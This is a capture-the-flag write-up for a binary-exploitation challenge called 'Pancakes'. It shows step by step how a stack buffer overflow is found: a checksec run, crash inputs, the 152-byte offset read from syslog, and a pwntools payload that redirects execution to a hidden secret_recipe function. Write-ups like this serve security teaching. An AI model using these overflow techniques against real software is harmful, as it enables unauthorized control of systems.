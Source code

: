 # Pancakes

## Problem

> How many flap-jacks are on your stack?<br><br>
Connect with:<br>
`nc jh2i.com 50021`

[pancakes](pancakes)

## Solution

We are given an ELF 64-bit LSB executable. Normally, we would want to reverse-engineer or decompile the binary in order to understand what it does. However, this is an easy challenge, and we will try to solve it without any reverse engineering.

When running the binary, we are asked to provide some input:

```console
> ./pancakes
Welcome to the pancake stacker!
How many pancakes do you want?
```

Let's start by running `checksec` against the binary to get an idea of the protection mechanisms present.

```console
> checksec pancakes 2> >(sed '3,6!d')
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

We can proceed to test if the binary is vulnerable to buffer overflow by providing a very long string as the input:

```console
> python -c "print('A' * 200)" | ./pancakes
Welcome to the pancake stacker!
How many pancakes do you want?
Cooking your cakes.....
Smothering them in butter.....
Drowning them in syrup.....
They're ready! Our waiters are bringing them out now...
        _____________
       /    ___      \
      ||    \__\     ||
      ||      _      ||
      |\     / \     /|
      \ \___/ ^ \___/ /
      \\____/_^_\____//_
    __\\____/_^_\____// \
   /   \____/_^_\____/ \ \
  //                   , /
  \\___________   ____  /
               \_______/

[1]    7878 done                python -c "print('A' * 200)" | 
       7879 segmentation fault  ./pancakes
```

We see a segmentation fault. Indeed, the binary is vulnerable.

We can now tail the system logs to see if we were able to override the instruction pointer:

```console
> tail -1 /var/log/syslog
Aug  2 15:56:58 kali kernel: [21197.078532] traps: pancakes[7919] general protection fault ip:40098a sp:7fff0d13d058 error:0 in pancakes[400000+1000]
```

Judging by the "traps" message, it seems that we overflowed the buffer way too much.

Let's try again with a smaller input.

```console
> python -c "print('A' * 155)" | ./pancakes
Welcome to the pancake stacker!
How many pancakes do you want?
Cooking your cakes.....
Smothering them in butter.....
Drowning them in syrup.....
They're ready! Our waiters are bringing them out now...
        _____________
       /    ___      \
      ||    \__\     ||
      ||      _      ||
      |\     / \     /|
      \ \___/ ^ \___/ /
      \\____/_^_\____//_
    __\\____/_^_\____// \
   /   \____/_^_\____/ \ \
  //                   , /
  \\___________   ____  /
               \_______/

[1]    7959 done                python -c "print('A' * 155)" | 
       7960 segmentation fault  ./pancakes
> tail -2 /var/log/syslog
Aug  2 16:01:00 kali kernel: [21439.310210] pancakes[7960]: segfault at 7f7700414141 ip 00007f7700414141 sp 00007fff7f31cf50 error 14 in libc-2.30.so[7f77e5d63000+25000]
Aug  2 16:01:00 kali kernel: [21439.310249] Code: Bad RIP value.
```

We can see some `41`s in the instruction pointer, which is the hex value of A. Since we passed an input which is 155 characters long, and we overwrote the instruction pointer by 3 `A`s, we can identify that the offset is 152.

If we override the instruction pointer with the address of a function of our choice, that function will be called.

Let's look at the list of symbols in the text (code) section of the binary:

```console
> nm -an pancakes | c++filt | grep " T "
0000000000400648 T _init
0000000000400700 T _start
0000000000400730 T _dl_relocate_static_pie
00000000004007e7 T main
000000000040098b T secret_recipe
0000000000400a00 T __libc_csu_init
0000000000400a70 T __libc_csu_fini
0000000000400a74 T _fini
```

The `secret_recipe` function looks interesting.

Let's note its address and write a Python script to call it with the help of pwntools.

[Python script](solver.py)

```console
> ./solver.py
[+] Starting local process './pancakes': pid 8234
Welcome to the pancake stacker!
How many pancakes do you want?

[>] Sending payload aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaab    @\x00\x00\x00...
[*] Switching to interactive mode
Cooking your cakes.....
Smothering them in butter.....
Drowning them in syrup.....
They're ready! Our waiters are bringing them out now...
        _____________
       /    ___      \
      ||    \__\     ||
      ||      _      ||
      |\     / \     /|
      \ \___/ ^ \___/ /
      \\____/_^_\____//_
    __\\____/_^_\____// \
   /   \____/_^_\____/ \ \
  //                   , /
  \\___________   ____  /
               \_______/

[*] Got EOF while reading in interactive
$
```

It seems that the `secret_recipe` function didn't do anything. Before we try to reverse-engineer the function's code, let's try to create a dummy `flag.txt` file. Since this is a CTF, there is a big chance that `secret_recipe` reads the contents of a file called `flag.txt`.

```console
> echo "flag{test}" > flag.txt
> ./solver.py
[+] Starting local process './pancakes': pid 8234
Welcome to the pancake stacker!
How many pancakes do you want?

[>] Sending payload aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaab    @\x00\x00\x00...
[*] Switching to interactive mode
Cooking your cakes.....
Smothering them in butter.....
Drowning them in syrup.....
They're ready! Our waiters are bringing them out now...
        _____________
       /    ___      \
      ||    \__\     ||
      ||      _      ||
      |\     / \     /|
      \ \___/ ^ \___/ /
      \\____/_^_\____//_
    __\\____/_^_\____// \
   /   \____/_^_\____/ \ \
  //                   , /
  \\___________   ____  /
               \_______/

flag{test}

[*] Got EOF while reading in interactive
$```

Our assumption was correct, it was a simple ret2win.
